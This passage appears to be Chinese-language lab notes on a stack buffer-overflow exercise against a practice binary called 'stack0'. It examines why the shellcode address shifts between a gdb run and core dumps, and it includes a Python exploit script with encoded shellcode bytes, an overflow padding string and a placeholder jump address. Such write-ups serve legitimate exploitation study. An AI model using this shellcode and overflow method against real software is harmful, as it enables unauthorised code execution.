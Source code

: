 可以看到此时应该将0xff85ffc0改成0xffe11e0c+0x4=0xffe11e10才会执行后面的shellcode(内容从0x3c6f31ba开始)

说明shellcode每次在内存中的位置都是变化的

后来又发现下面三种方法特点不同：

**方法1：**

```
gdb ./stack0
人工输入aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb

```

每次shellcode的位置（bbbb处)在内存中的地址都是0xffffd500

**方法2:**

```
./stack0
人工输入aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb
gdb -q -c core

```

从core文件中发现每次shellcode的位置（bbbb处）在内存中的地址都是变化的

**方法3:**

```
vi exploit.py
------------exploit.py--------------
#/usr/bin/python
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="some addr"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
---------------end------------------

gdb -q -c core

```

从core文件中分析出的shellcode的位置（\xba\x31\x6f\x3c开始)都是变化的
